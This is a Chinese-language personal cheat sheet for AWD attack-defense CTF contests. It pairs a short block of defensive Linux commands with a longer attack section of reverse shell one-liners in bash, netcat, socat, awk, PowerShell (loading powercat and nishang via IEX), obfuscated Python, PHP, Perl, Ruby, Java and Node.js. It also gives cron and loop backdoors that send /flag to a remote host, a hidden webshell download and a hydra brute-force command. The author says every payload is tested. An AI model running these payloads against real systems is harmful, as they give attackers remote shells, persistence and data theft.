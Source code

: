 ```yaml
---
title: AWD MyCheatSheet
tags: 学习笔记
abbrlink: 7923
date: 2020-01-23 19:00:05
categories:
---
```



## 前言

之前一次比赛中临时整理的,写给自己看.

<!--more-->

## 攻击

### crunch + hydra

```
crunch 10 10 -t 201800%%% -o password.txt
hydra -u root -p password.txt -l 192.168.9.0/24
```

### 防御

```bash
ps -u ctf  # 显示特定用户进程

last -n 5 awk '{print $1}' # 显示最近登录的5个账号

cat /etc/passwd |awk -F ':' '{print $1}' #显示所有账户

netstat -antulp | grep EST # 查看所有链接

lsof -i:3306 # 查看端口号

tar cvf www.tar /var/www/html # 打包源码

scp /tmp ctf@192.168.1.1:/var/www/html # 下载源码

mysqldump -u root -p ctf>ctf.sql # 备份数据库

mysql -u root -p ctf< ctf.sql #恢复数据库
或
source ctf.sql 

find . -name "*.php" -perm 4777 # 查找777权限的php文件

find ./ -mtime 0 -name "*.php" # 查找24小时内修改过的php文件

rm -rf `find /var/www/html -name .*.php` # 删除目录下 .*.php的文件
    
chattr -R +i /var/www/html # 锁定文件
    
tcpdump -s 0 -w ctf.pcap port 9999 # 高权限tcpdump抓包

alias curl="echo flag{1a5d51c54515649463521}" # 别名,需要写到.bashrc

unalias # 取消别名
```

### 杀进程

```
kill [pid]
killall [进程名]
pkill [进程名]
pkill -u [用户名] # 一次不行多几次,再猛的不死马都得死
```



## 权限维持

### 反弹 shell

#### 系统自带反弹

```bash
nc -e /bin/bash 1.1.1.1 4444
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 1.1.1.1 4444 >/tmp/f
bash -c 'bash -i >/dev/tcp/1.1.1.1/4444 0>&1'
zsh -c 'zmodload zsh/net/tcp && ztcp 1.1.1.1 4444 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:1.1.1.1:4444  
awk 'BEGIN{s="/inet/tcp/0/1.1.1.1/4444";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'
```

### 反弹 shell

#### powercat

```cmd
# 下载powercat
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
# 反弹shell
powercat -c 1.1.1.1 -p 4444 -e cmd
```

#### nishang

```cmd
# 下载Invoke-PowerShellTcp
IEX (**New**-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1');
# 反弹shell
Invoke-PowerShellTcp -Reverse -IPAddress 1.1.1.1 -port 4444
```

#### powershell自定义函数

```cmd
powershell -nop -c "$client = New-Object Net.Sockets.TCPClient('1.1.1.1',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

#### python2

```cmd
#linux
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("1.1.1.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
#windows
python -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('1.1.1.1', 4444)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```

#### python3

*(python3的只发现在msfvenom上有meterpreter版本的,没有普通的oneliner reverse shell,因此自己写了一个)*

```cmd
python -c "(lambda __g, __y: [[[[(sock.connect(('1.1.1.1',4444)), (lambda __after: __y(lambda __this: lambda: [[[[(sock.send(m_stdout), (time.sleep(1), __this())[1])[1] for (__g['m_stdout'], __g['m_stderr']) in [(comRst.communicate())]][0] for __g['comRst'] in [(subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE))]][0] for __g['data'] in [(data.decode('utf-8'))]][0] for __g['data'] in [(sock.recv(1024))]][0] if True else __after())())(lambda: None))[1] for __g['sock'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['time'] in [(__import__('time', __g, __g))]][0])(globals(), (lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))))"
```



#### php

```shell
php -r '$sock=fsockopen("1.1.1.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### perl

```shell
perl -e 'use Socket;$i="1.1.1.1";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### ruby

```shell
# linux
ruby -rsocket -e'f=TCPSocket.open("1.1.1.1",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
# windows
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("1.1.1.1","4444");while(cmd=c.gets);IO.popen(cmd,"r")io|c.print io.readend'
```

#### java

保存到jar文件,运行

```java
public class Revs {
    /**
    * @param args
    * @throws Exception 
    */
    public static void main(String[] args) throws Exception {
        // TODO Auto-generated method stub
        Runtime r = Runtime.getRuntime();
        String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/1.1.1.1/4444;cat <&5 | while read line; do $line 2>&5 >&5; done"};
        Process p = r.exec(cmd);
        p.waitFor();
    }
}
```

#### nodejs

```javascript
(function(){
    var net = require("net"),
    cp = require("child_process"),
    sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4444, "1.1.1.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```

以上命令均测试过有效,使用请自行修改ip和port.

### 后门

#### crontab

`echo '*/1 * * * * nc -w 1 1.1.1.1 4444 < /flag' > initflag.cron` 

`crontab initflag.cron`

#### shell

`echo  'while true\ndo\nnc -w 1 1.1.1.1 4444 < /flag >&1\nsleep 1m\ndone'> web_init.sh`

`sh web_init.sh`

#### webshell

`curl http://1.1.1.1/LongLiveAlkaid.txt -o .function.inc.php`

webshell pass:
get:url?pass=LongLiveAlkaid
post:a



## 参考链接

<https://klionsec.github.io/2016/09/27/revese-shell/>

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md)